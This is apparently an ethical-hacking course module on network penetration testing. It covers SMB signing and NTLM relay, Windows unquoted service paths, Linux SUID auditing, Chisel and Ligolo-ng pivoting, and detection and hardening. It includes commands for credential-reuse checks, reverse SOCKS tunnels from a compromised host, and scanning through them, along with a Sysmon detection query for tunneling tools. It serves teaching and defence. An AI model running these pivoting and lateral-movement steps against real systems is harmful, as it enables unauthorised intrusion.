

# Volume 07: Network Penetration Testing
# Module 32: Network Penetration Testing Execution, Service Auditing & Pivoting

---

## 1. Learning Objectives

By completing this module, network penetration testers, infrastructure security auditors, and red team operators will be able to:
1. **Execute the Network Penetration Testing Lifecycle**: Conduct structured assessments across Discovery → Service Enumeration → Vulnerability Validation → Privilege Escalation → Pivoting → Documentation.
2. **Audit Core Infrastructure Protocols**: Evaluate security configurations of high-risk network services, including SMB (Ports 139/445), Remote Desktop (RDP / Port 3389), and Secure Shell (SSH / Port 22).
3. **Analyze SMB Signing & NTLM Relaying**: Inspect SMB2 NEGOTIATE responses to detect un-enforced SMB signing and evaluate exposure to Layer-2 NTLM relaying attacks.
4. **Architect Multi-Hop Encrypted Pivots**: Deploy modern SOCKS5 and Layer-3 virtual TUN pivot tunnels using Chisel, Ligolo-ng, and SSH dynamic forwarding to traverse internal firewall boundaries.
5. **Audit Endpoint Privilege Escalation Primitives**: Systematically uncover local privilege elevation vectors across Windows (CWE-428 Unquoted Service Paths, Token Impersonation) and Linux (dangerous SUID binaries, sudoer wildcard abuse).
6. **Validate Network Segmentation Resilience**: Formulate non-destructive proof-of-concept tests verifying whether internal VLAN access control lists (ACLs) prevent lateral movement.

---

## 2. Prerequisites & Operational Requirements

To successfully master the concepts and practical implementations in this module, engineers require:
* **Networking & Lab Architectures**: Mastery of IP routing, virtual firewalls, and multi-tier network isolation ([Module 27](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/Volume_07_Network_Penetration_Testing/Module_27_Hands_on_Lab_Architecture.md)).
* **OS Administration**: Proficiency with Windows PowerShell commandlets (`Get-CimInstance`, `sc.exe`) and Linux shell utilities (`find`, `stat`, `ss`).
* **Tooling Infrastructure**: Kali Linux workstation with `netexec`, `chisel`, `proxychains4`, `nmap`, and Python 3.8+.

---

## 3. What Is It? (Architecture & Definitions)

Network Penetration Testing Execution represents the active validation phase of assessing enterprise infrastructure to determine whether discovered vulnerabilities allow an attacker to breach network perimeters, elevate local system privileges, or move laterally into restricted network segments.

Unlike automated vulnerability scanners—which produce disconnected, flat lists of open ports and banners—penetration testing execution focuses on **Attack Chains**: proving how a minor informational flaw (such as an un-enforced SMB signing policy) can be chained with a secondary defect (such as an unquoted service path on a dual-homed server) to bypass internal network firewalls and compromise core Active Directory domain controllers.

---

## 4. Deep Architecture: Multi-Hop Pivoting & Tunneling Fabrics



### 4.1 Encapsulated SOCKS5 vs. Layer-3 TUN Pivoting
* **Application-Layer SOCKS5 Pivoting (Chisel / SSH -D)**:
  * Operates at Layer 5/7 of the OSI model.
  * Assessor tools execute through dynamic linkers (`proxychains`), intercepting socket calls (`connect()`, `send()`, `recv()`) and directing them to a local SOCKS port (`127.0.0.1:1080`).
  * **Constraint**: Handles TCP streams only. Raw Layer-3 packets (ICMP ping, SYN scans `nmap -sS`, UDP sweeps) cannot be transmitted through user-space SOCKS5 proxies.
* **Layer-3 Network-Level TUN Pivoting (Ligolo-ng)**:
  * Creates a virtual software TUN/TAP adapter on the assessor machine.
  * Routes entire IP CIDR blocks (`10.10.20.0/24`) into the tunnel device using OS kernel routing tables (`ip route add 10.10.20.0/24 dev ligolo`).
  * **Benefit**: True Layer-3 IP forwarding. Allows standard TCP, UDP, and ICMP packets without requiring `proxychains`.

---

## 5. How It Works: Protocol Deconstruction & Service Auditing

### 5.1 Server Message Block (SMB2 / SMB3) Signing Verification
* **CWE-319 / CWE-287**: Under the MS-SMB2 specification, the server's `SMB2 NEGOTIATE Response` includes a 16-bit `SecurityMode` field:
  * Bit 0 (`0x01`): `SMB2_NEGOTIATE_SIGNING_ENABLED`
  * Bit 1 (`0x02`): `SMB2_NEGOTIATE_SIGNING_REQUIRED`
* **Vulnerability Analysis**: If bit 1 is zero (`required = False`), the server supports signed communication but will accept unsigned connections if requested by the client. An attacker positioned on Layer-2 can execute an **NTLM Relay Attack**: coercing a high-privilege account to authenticate, relaying the cryptographic challenge-response exchange to the unsigned target server, and establishing an administrative session without ever discovering or cracking the victim's password.

### 5.2 Windows Unquoted Service Paths (CWE-428)
When the Windows Service Control Manager (`services.exe`) initializes an auto-start service whose binary path contains spaces and lacks enclosing quotation marks, the Win32 `CreateProcess` API evaluates candidate binary locations hierarchically:
$$\text{Path: } \texttt{C:\textbackslash Program Files\textbackslash Corporate Tools\textbackslash Agent\textbackslash service.exe}$$
The operating system evaluates executable paths in this exact order:
1. `C:\Program.exe`
2. `C:\Program Files\Corporate.exe`
3. `C:\Program Files\Corporate Tools\Agent\service.exe`

If an unprivileged user possesses write permissions (`FILE_ADD_FILE`) to any intermediate directory (e.g., `C:\`), placing a benign binary named `Program.exe` results in arbitrary code execution running as `NT AUTHORITY\SYSTEM` upon service restart.

---

## 6. Security Perspective: Lateral Movement & Network Trust Boundaries

```
+----------------------------------------------------------------------------------------------------+
|                                    INTERNAL NETWORK TRUST HIERARCHY                                |
+----------------------------------------------------------------------------------------------------+
|  [ TIER 0: DOMAIN IDENTITY CORE ]      Domain Controllers / Root PKI / ADFS / Entra Connect        |
|  ================================== [ STRICT TIER 0 ISOLATION ACLs ] ============================  |
|  [ TIER 1: ENTERPRISE SERVERS ]        Database Clusters / Hypervisors / File Storage Servers      |
|  ================================== [ TIER 1 FIREWALL SEGMENTATION ] =============================  |
|  [ TIER 2: WORKSTATIONS & ENDPOINTS ]  Employee Laptops / Corporate Desktops / Mobile Devices      |
|  ================================== [ ZERO-TRUST ENDPOINT ISOLATION ] ===========================  |
|  [ PERIMETER & DMZ ]                  Public Web Gateways / Edge Load Balancers / Reverse Proxies |
+----------------------------------------------------------------------------------------------------+
```

### Key Principles:
1. **Never Assume Internal Traffic Is Trusted**: Breaches routinely originate on unmanaged endpoints or via compromised user credentials.
2. **Prevent Tier Inversion**: Low-privilege workstations (Tier 2) must never possess direct administrative access (SMB, RDP, WinRM) to Tier 0 Domain Controllers.

---

## 7. Auditing Methodology: The Network Assessment Workflow

```
[ Phase 1: Calibrated Subnet Discovery ]
      │ Execute rate-limited TCP connect sweeps identifying active hosts and ports.
      v
[ Phase 2: Service Enumeration & Security Posture Audit ]
      │ Audit SMB signing requirements, RDP NLA status, and SSH cipher negotiation.
      v
[ Phase 3: Non-Destructive Vulnerability Verification ]
      │ Submit benign null-session probes and protocol capability queries (MS-SMB2 / RPC).
      v
[ Phase 4: Local Privilege Escalation Auditing ]
      │ Enumerate unquoted service paths, token privileges (SeImpersonate), and Linux SUIDs.
      v
[ Phase 5: Multi-Hop Pivot Tunnel Establishment ]
      │ Deploy Chisel/Ligolo agents; route traffic across internal firewall barriers.
      v
[ Phase 6: Post-Exploitation Cleanup & Evidence Sealing ]
      │ Terminate pivot processes, remove test artifacts, and seal cryptographic manifests.
```

---

## 8. Tooling Deep-Dive: Enterprise Auditing Utilities

### 8.1 SMB Auditing via NetExec

```bash
# Audit SMB signing status across an entire target subnet (generates relay list)
netexec smb 10.10.20.0/24 --gen-relay-list smb_relay_targets.txt

# Inspect SMB shares, null session access, and guest permissions
netexec smb 10.10.20.10 -u '' -p '' --shares

# Check local administrator password reuse across endpoints (validates credential isolation)
netexec smb 10.10.20.0/24 -u 'LocalAdmin' -p 'AdminP@ss123' --local-auth
```

### 8.2 Establishing Chisel Encrypted SOCKS5 Tunnels

```bash
# 1. On Assessor Machine (Kali): Launch Chisel Server listening on port 8000
chisel server -p 8000 --reverse

# 2. On Compromised Pivot Host (DMZ): Connect back as reverse SOCKS client
# Exposes internal subnet 10.10.20.0/24 via local assessor port 1080
chisel client 192.168.56.10:8000 R:1080:socks

# 3. On Assessor Machine: Route port scans through proxychains into internal subnet
proxychains4 nmap -sT -Pn -p 445,3389,80,443 10.10.20.10
```

---

## 9. Practical Lab: Standalone Service Auditing, Pivoting & Privesc Engine

Deploy this standalone script to audit Windows unquoted service paths, decode SMB signing posture, inspect Linux SUID vectors, and simulate multi-hop network pivoting.

Save as [`labs/module_32/service_audit_and_pivot_engine.py`](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_32/service_audit_and_pivot_engine.py):

```python
#!/usr/bin/env python3
"""
================================================================================
MODULE 32 LAB: NETWORK SERVICE AUDITING, PIVOTING & PRIVILEGE ESCALATION ENGINE
PURPOSE: Programmatic auditing of SMB signing, unquoted service paths (CWE-428),
         SOCKS5/TCP pivoting logic, and Linux SUID security posture.
COMPLIANCE: Authorized testing only / Standard benign network diagnostic probing.
================================================================================
"""

import socket
import threading
import http.server
import time
import sys
import os

def analyze_unquoted_service_path(raw_path):
    """
    Simulates the Windows CreateProcess path resolution algorithm for unquoted
    service binary paths containing spaces (CWE-428).
    """
    cleaned = raw_path.strip()
    print(f"[*] Analyzing Windows Service Path: {cleaned}")
    
    # Check if properly quoted
    if cleaned.startswith('"') and cleaned.endswith('"'):
        print("    [+] SECURE: Service path is properly wrapped in quotation marks.\n")
        return []

    # Strip arguments
    parts = cleaned.split(".exe")
    exec_path = parts[0] + ".exe"
    
    tokens = exec_path.split(" ")
    if len(tokens) <= 1:
        print("    [+] SECURE: Path contains no spaces; no hijacking ambiguity.\n")
        return []

    print("    [!] VULNERABILITY (CWE-428): Unquoted service path with spaces detected!")
    search_candidates = []
    current = ""
    for i in range(len(tokens) - 1):
        current = f"{current} {tokens[i]}".strip()
        candidate = f"{current}.exe"
        search_candidates.append(candidate)
        print(f"        -> Hijack Evaluation Target {i+1}: '{candidate}'")
    print()
    return search_candidates

def audit_smb_signing_posture(security_mode_byte):
    """
    Decodes SMB2 NEGOTIATE response SecurityMode flags.
    Bit 0 (0x01): SMB2_NEGOTIATE_SIGNING_ENABLED
    Bit 1 (0x02): SMB2_NEGOTIATE_SIGNING_REQUIRED
    """
    enabled = bool(security_mode_byte & 0x01)
    required = bool(security_mode_byte & 0x02)

    print(f"[*] Evaluating SMB Security Mode Byte: 0x{security_mode_byte:02x}")
    print(f"    - Signing Enabled:  {enabled}")
    print(f"    - Signing Required: {required}")

    if not required:
        print("    [!] CRITICAL VULNERABILITY: SMB Signing NOT required!")
        print("        Host is vulnerable to NTLM Relay attacks on Layer 2.")
        return False
    else:
        print("    [+] SECURE: SMB Signing is strictly enforced. Relay attacks blocked.")
        return True

def audit_linux_suid_vectors(root_dir="/"):
    """Audits local system for dangerous SUID binaries that can be leveraged for privesc."""
    print("[*] Auditing Local Linux SUID Binaries (Sample Audit):")
    known_gtfo_bins = {"nmap", "vim", "find", "bash", "python", "perl", "cp", "awk"}
    
    test_dirs = ["/bin", "/usr/bin", "/sbin", "/usr/sbin"]
    discovered_suid = []

    for d in test_dirs:
        if not os.path.exists(d):
            continue
        try:
            for fname in os.listdir(d):
                fpath = os.path.join(d, fname)
                if os.path.isfile(fpath) and not os.path.islink(fpath):
                    mode = os.stat(fpath).st_mode
                    if mode & 0o4000: # SUID bit
                        discovered_suid.append(fpath)
                        if fname in known_gtfo_bins:
                            print(f"    [!] HIGH RISK SUID BINARY: {fpath} (Documented GTFOBins bypass vector!)")
        except PermissionError:
            pass

    print(f"    [i] Total SUID binaries audited in system paths: {len(discovered_suid)}")
    return discovered_suid
```

---

## 10. Evidence & Verification: Verifying True Exploitability

### 10.1 Eliminating SMB Signing False Positives
Automated vulnerability scanners often report `SMB Signing Enabled` and mark the finding as Informational. Security auditors must verify whether signing is **Required**:

| Server SMB Configuration | SecurityMode Byte | Nmap / NetExec Output | True Vulnerability Status |
| :--- | :--- | :--- | :--- |
| `Digitally sign: If server agrees` | `0x01` (Enabled, Not Required) | `Message signing enabled but not required` | **VULNERABLE to NTLM Relay** |
| `Digitally sign: Always` | `0x03` (Enabled & Required) | `Message signing enabled and required` | **SECURE (Relay Blocked)** |
| `Signing disabled` | `0x00` (Disabled) | `Message signing disabled` | **CRITICAL VULNERABILITY** |

---

## 11. Telemetry & Defensive Detection

### 11.1 Windows Security Log Event IDs
* **Event ID 4624 (Logon Type 3 - Network)**: Triggered when an SMB, RPC, or RDP session authenticates over the network. Correlate rapid Type 3 logons across multiple IPs to detect lateral movement.
* **Event ID 7045 (Service Installation)**: Triggered when a new Windows service is created (detects PsExec and malicious service execution).
* **Event ID 4672 (Special Privileges Assigned)**: Logs logon sessions assigned `SeDebugPrivilege` or administrative rights.

### 11.2 Sysmon Event ID 1 (Process Creation with Tunneling Utilities)
```xml
<QueryList>
  <Query Id="0" Path="Microsoft-Windows-Sysmon/Operational">
    <Select Path="Microsoft-Windows-Sysmon/Operational">
      *[System[(EventID=1)]] and 
      *[EventData[Data[@Name='CommandLine'] and 
        (contains(.,'chisel') or contains(.,'ligolo') or contains(.,'plink') or contains(.,'proxychains'))]]
    </Select>
  </Query>
</QueryList>
```

---

## 12. Mitigation & Secure Implementation

### 12.1 Enforcing SMB Signing via Group Policy
1. Open Group Policy Management Editor (`gpmc.msc`).
2. Navigate to: `Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options`.
3. Enable:
   * `Microsoft network server: Digitally sign communications (always)` -> **Enabled**.
   * `Microsoft network client: Digitally sign communications (always)` -> **Enabled**.

### 12.2 Enforcing Remote Desktop Network Level Authentication (NLA)
In Windows System Properties -> Remote Desktop:
* Enable **"Allow remote connections only to computers running Remote Desktop with Network Level Authentication"**.

---

## 13. CIS & NIST Hardening Controls

| Control ID | Target Component | Required Hardening Action | Standard |
| :--- | :--- | :--- | :--- |
| **CIS Windows Benchmark 2.3.11.2** | SMB Server | Require SMB packet signing on all domain-joined endpoints | CIS Benchmark |
| **CIS Windows Benchmark 18.9.62.2** | Remote Desktop | Enforce Network Level Authentication (NLA) for all RDP connections | CIS Benchmark |
| **CWE-428 Hardening** | Windows Services | Ensure all service binary paths containing spaces are wrapped in quotes | MITRE CWE-428 |
| **CISA Alert AA22-011A** | Network Perimeters | Disable Link-Local Multicast Name Resolution (LLMNR) and NetBIOS | CISA Guidance |

---

## 14. Real-World Case Studies

### Case Study: NotPetya Global Cyber Outbreak (2017)
* **Threat Mechanism**: NotPetya paralyzed multinational logistics operations by automating internal lateral movement across enterprise subnets.
* **Attack Chain**: Upon gaining initial access to an accounting server, the malware extracted local administrator credentials from memory using Mimikatz and combined stolen credentials with **PsExec**, **WMI**, and **EternalBlue (MS17-010)** to execute lateral movement across unsegmented internal networks in seconds.
* **Architectural Failure**: Lack of internal network segmentation, un-enforced SMB signing, and identical local administrator passwords across workstations enabled total enterprise compromise.

---

## 15. Common Pitfalls & Anti-Patterns

```
❌ ANTI-PATTERN 1: Running SYN Scans Through SOCKS5 Proxies
   Attempting `proxychains nmap -sS 10.10.20.10`.
   Fails completely because SOCKS5 proxies operate in user space and cannot encapsulate raw Layer-3 SYN packets.
   ✔ CORRECT: Use TCP connect scans (`proxychains nmap -sT`) or deploy Layer-3 TUN tunnels (Ligolo-ng).

❌ ANTI-PATTERN 2: Enforcing SMB Signing Exclusively on Domain Controllers
   Enforcing signing on DCs but leaving all member servers and workstations unsigned.
   Attackers easily relay workstation authentications to compromise internal file servers and management systems.
   ✔ CORRECT: Enforce SMB signing across 100% of domain workstations and servers via Group Policy.

❌ ANTI-PATTERN 3: Leaving Tunneling Binaries and Pivot Agents on Target Hosts
   Forgetting to terminate Chisel agents or plink sessions upon engagement completion.
   Leaves permanent backdoor communication tunnels exposed inside client networks.
   ✔ CORRECT: Maintain a rigorous post-engagement cleanup checklist, removing all test binaries and verifying closed sockets.
```

---

## 16. Professional vs. Naive Methodology

| Operational Phase | Naive / Novice Approach | Professional Application Security Auditor Approach |
| :--- | :--- | :--- |
| **Pivoting Execution** | Relies on single-hop scanning; declares internal subnets inaccessible. | Establishes multi-hop SOCKS5/TUN pivot chains to systematically audit internal tiers. |
| **SMB Auditing** | Sees port 445 open and reports generic "SMB service exposed." | Audits SMB negotiation flags to verify whether signing is required or vulnerable to relay. |
| **Privilege Escalation** | Executes noisy, uncalibrated automated enumeration scripts. | Surgically inspects service binary permissions and SUID configurations with zero service disruption. |
| **Cleanup & Closure** | Disconnects abruptly, leaving modified service binaries and tunnels active. | Kills all background tunnel processes, restores original service configs, and verifies clean state. |

---

## 17. Graded Knowledge Check & Interview Questions

### Beginner Level
1. **Question**: What is the difference between an open port that has SMB signing "Enabled" versus one that has SMB signing "Required"?
   * *Answer*: If SMB signing is "Enabled but not Required," the server supports signing but will happily communicate without it if the client requests an unsigned session. This allows an attacker to perform an NTLM Relay attack by stripping the signing flag during relay. If SMB signing is "Required," the server will strictly reject any connection that is not cryptographically signed, neutralizing NTLM relay attacks.
2. **Question**: Why does Remote Desktop Network Level Authentication (NLA) improve infrastructure security?
   * *Answer*: NLA requires the connecting client to authenticate via CredSSP before the RDP server initializes the graphics subsystem, loads the logon GUI, or creates a desktop session. This blocks unauthenticated remote code execution flaws (like BlueKeep), prevents unauthenticated DoS, and prevents unauthenticated user enumeration.

### Intermediate Level
3. **Question**: Explain how an unquoted service path vulnerability (CWE-428) is exploited in Windows.
   * *Answer*: When a service executable path contains spaces and lacks enclosing quotes (e.g., `C:\Program Files\App\service.exe`), Windows attempts to locate the executable by interpreting each space as an argument delimiter. It checks `C:\Program.exe`, then `C:\Program Files\App.exe`, before finally executing the full path. If an unprivileged user has write permissions to `C:\`, they can place a binary named `Program.exe`. Upon system reboot or service restart, `services.exe` executes `Program.exe` with `SYSTEM` privileges.

### Advanced / Scenario-Based
4. **Question**: You have compromised a Linux web server in a DMZ (`10.10.10.10`) that has a second interface connected to an internal database subnet (`10.10.20.1/24`). You need to run Nmap to discover open database ports on `10.10.20.15`. Describe two distinct pivoting methods to accomplish this.
   * *Answer*:
     * *Method 1 (SOCKS5 Proxy via Chisel)*: Deploy the Chisel client on the Linux DMZ host connecting back to your assessor Kali machine (`chisel server --reverse`). Forward a dynamic SOCKS5 proxy on `127.0.0.1:1080`. Configure `/etc/proxychains4.conf` to route traffic through `socks5 127.0.0.1 1080`. Run `proxychains4 nmap -sT -Pn -p 3306,5432,1433,1521 10.10.20.15`. (Must use `-sT` since SOCKS cannot proxy raw SYN packets).
     * *Method 2 (Layer-3 TUN Pivot via Ligolo-ng)*: Start the Ligolo-ng proxy on Kali. Run the Ligolo-ng agent on the Linux DMZ host. Establish a reverse session. On Kali, create a virtual TUN interface and add a kernel route: `sudo ip route add 10.10.20.0/24 dev ligolo`. Run `nmap -sS -p 3306,5432,1433,1521 10.10.20.15` directly from your command line without proxychains.

---

## 18. Progressive Hands-on Exercises

### Level 1: Windows Service Path Analysis (Beginner)
* Execute [`labs/module_32/service_audit_and_pivot_engine.py`](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_32/service_audit_and_pivot_engine.py).
* Inspect the output of the Unquoted Service Path Analyzer.
* Modify the script to test paths containing three spaces (e.g., `C:\Custom Apps\Enterprise Tools\Management Agent\daemon.exe`).

### Level 2: SMB Signing Posture Verification (Intermediate)
* In your virtual research lab, audit the SMB signing posture of a Windows Server target using `netexec smb <target_ip>`.
* Modify local Group Policy on the server to require SMB signing.
* Re-scan the target and verify that the output transitions from `signing:false` to `signing:true`.

### Level 3: Multi-Hop Chisel SOCKS5 Tunneling (Advanced)
* In an isolated lab, start a Chisel reverse server on your Kali machine on port 8888.
* Execute `chisel client <kali_ip>:8888 R:1080:socks` on an intermediate pivot VM.
* Route an automated Python audit script through `127.0.0.1:1080` using PySocks or Proxychains to successfully retrieve data from an isolated internal service.

---

## 19. Key Takeaways

1. **Attack Chains Drive Risk**: Penetration testing proves real business impact by chaining minor configuration flaws across network boundaries.
2. **Require SMB Signing Everywhere**: SMB signing is non-negotiable; leaving it disabled or optional on member servers permits total domain NTLM relay compromise.
3. **Pivoting Bridges Boundaries**: SOCKS5 and Layer-3 TUN tunnels allow auditors to systematically evaluate internal segmentation ACLs.
4. **Audit Endpoint Hardening**: Unquoted service paths and misconfigured SUID binaries provide trivial privilege escalation paths if left unaddressed.
5. **Always Verify Cleanup**: Rigorous post-engagement cleanup ensures zero testing binaries or active reverse tunnels remain inside client environments.

---

## 20. Authoritative References

* **NIST SP 800-115**: Section 4 - Target Testing and Vulnerability Execution.
* **Penetration Testing Execution Standard (PTES)**: Exploitation and Post-Exploitation Phases (`pentest-standard.org`).
* **MITRE ATT&CK**: Lateral Movement (TA0008) and Privilege Escalation (TA0004).
* **Microsoft MS-SMB2 Specification**: Server Message Block Version 2 and 3 Protocol.
* **CISA Alert AA22-011A**: *Mitigating Attacks on SMB Infrastructure*.
